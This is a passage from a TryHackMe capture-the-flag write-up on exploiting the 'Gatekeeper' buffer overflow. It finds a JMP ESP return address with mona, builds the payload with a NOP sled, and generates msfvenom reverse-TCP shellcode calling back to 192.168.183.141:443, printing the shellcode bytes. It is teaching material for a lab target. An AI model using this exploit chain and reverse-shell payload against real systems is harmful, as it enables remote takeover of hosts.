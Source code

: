 **Run the python script again:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a17.png)

This time we see `unmodified`, which means we found all the bad characters!

- Next, we need to find a return address (JMP ESP):

```
!mona jmp -r esp
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a18.png)

- Found 2 JMP ESP addresses: `080414C3` and `080416BF`.

I'll use the `080414C3` address.

**Let's add that address to our python script:**
```py
payload = b'A' * offset + b'\xC3\x14\x04\x08'
```

> Note: The address is reversed because of little-endian format.

- Add 32 NOP sleds:

```py
nop = b'\x90' * 32
```

- Generate shellcode via `msfvenom`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.183.141 LPORT=443 EXITFUNC=thread -f python -v shellcode -b '\x00\x0a'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xba\x7d\x49\x17\x10\xdb\xd8\xd9\x74\x24\xf4"
shellcode += b"\x58\x29\xc9\xb1\x52\x31\x50\x12\x83\xc0\x04"
shellcode += b"\x03\x2d\x47\xf5\xe5\x31\xbf\x7b\x05\xc9\x40"
shellcode += b"\x1c\x8f\x2c\x71\x1c\xeb\x25\x22\xac\x7f\x6b"
shellcode += b"\xcf\x47\x2d\x9f\x44\x25\xfa\x90\xed\x80\xdc"
shellcode += b"\x9f\xee\xb9\x1d\xbe\x6c\xc0\x71\x60\x4c\x0b"
shellcode += b"\x84\x61\x89\x76\x65\x33\x42\xfc\xd8\xa3\xe7"
shellcode += b"\x48\xe1\x48\xbb\x5d\x61\xad\x0c\x5f\x40\x60"
shellcode += b"\x06\x06\x42\x83\xcb\x32\xcb\x9b\x08\x7e\x85"
shellcode += b"\x10\xfa\xf4\x14\xf0\x32\xf4\xbb\x3d\xfb\x07"
shellcode += b"\xc5\x7a\x3c\xf8\xb0\x72\x3e\x85\xc2\x41\x3c"
shellcode += b"\x51\x46\x51\xe6\x12\xf0\xbd\x16\xf6\x67\x36"
shellcode += b"\x14\xb3\xec\x10\x39\x42\x20\x2b\x45\xcf\xc7"
shellcode += b"\xfb\xcf\x8b\xe3\xdf\x94\x48\x8d\x46\x71\x3e"
shellcode += b"\xb2\x98\xda\x9f\x16\xd3\xf7\xf4\x2a\xbe\x9f"
shellcode += b"\x39\x07\x40\x60\x56\x10\x33\x52\xf9\x8a\xdb"
shellcode += b"\xde\x72\x15\x1c\x20\xa9\xe1\xb2\xdf\x52\x12"
shellcode += b"\x9b\x1b\x06\x42\xb3\x8a\x27\x09\x43\x32\xf2"
```